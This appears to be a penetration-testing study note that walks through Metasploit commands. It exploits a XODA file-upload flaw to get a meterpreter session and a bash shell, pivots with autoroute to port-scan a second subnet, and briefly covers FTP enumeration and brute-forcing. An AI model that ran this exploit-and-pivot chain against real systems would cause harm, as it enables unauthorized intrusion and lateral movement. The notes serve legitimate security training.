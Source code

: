 msf6:`search xoda`

msf6:`use exploit/unix/webapp/xoda_file_upload`

`show options`

msf6:`set rhosts [target IP]`

We need to specify the path of the webApp:

msf6:`set targeturi /`

msf6:`set lhost [ownIP]`

msf6:`show options`

msf6:`exploit`

meterpreter:`sysinfo`

meterpreter:`shell`

`/bin/bash -i`

shell:`ifconfig`

eth1 is in the target 2 subnet (our system (target1) is eth1, for target2 change 2 to 3)

clear out

We add the route (We will be able to perform the scan):

meterpreter:`run autoroute -s [eth1]`

meterpreter:`background`

msf6 xoda exploit:`search portscan`

msf6 xoda exploit:`use portscan`

msf6 xoda exploit:`set rhosts [target2 IP]`

msf6 xoda exploit:`show options`

msf6 xoda exploit:`run`

Now we could start exploiting and pivoting the second target.

Using the UDP module:

msf6:`search udp_sweep`

msf6:`use auxiliary/scanner/discovery/udp_sweep`

msf6:`show options`

msf6:`ifconfig`

msf6:`set rhosts [targetIP]`

## FTP Enumeration

- FTP is a protocol that uses TCP port 21 and is used to facilitate file sharing between a server and client / clients.
- It is also used as a means of trandferring files to and from the directory of a web server.
- We can use multiple auxiliary modules to enumerate information as well as perform brute-force attacks on targets running an FTP server.
- FTP authenticaton utilizes a username and password combination, however, in some cases an improperly configured FTP server can be logged into anonymously.
